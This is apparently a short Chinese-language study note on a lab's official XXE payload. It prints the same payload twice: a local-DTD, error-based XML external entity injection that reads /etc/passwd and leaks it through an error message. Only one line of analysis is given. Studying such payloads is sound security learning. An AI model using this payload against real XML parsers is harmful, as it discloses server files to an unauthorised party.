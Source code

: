 ```



```




官方payload:
```
<!DOCTYPE message [ <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> <!ENTITY % ISOamso ' <!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> &#x25;eval; &#x25;error; '> %local_dtd; ]>
```



分析這段代碼，先用sublime 存成 xml 會比較好。因為有代碼高亮，也比較整齊。

```xml



<!DOCTYPE message [

    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">



    <!ENTITY % ISOamso '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">

        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        
        &#x25;eval;
        &#x25;error;



    '>




    %local_dtd;
]>





```
